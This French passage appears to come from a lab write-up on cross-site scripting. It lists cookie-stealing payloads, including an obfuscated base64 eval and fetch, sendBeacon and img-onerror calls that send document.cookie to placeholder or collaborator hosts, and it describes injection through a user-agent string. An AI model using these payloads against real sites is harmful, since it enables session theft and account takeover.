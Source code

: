 ```bash
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Nous allons choisissait la commande suivante
```bash
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```
Nous allons changer notre user-agent pour un user-agent de google afin que le serveur puisse accepter notre requête, on crée un nouvel agent avec qui se nomme xss avec comme string la commande xss 
![User-agent](d.png)

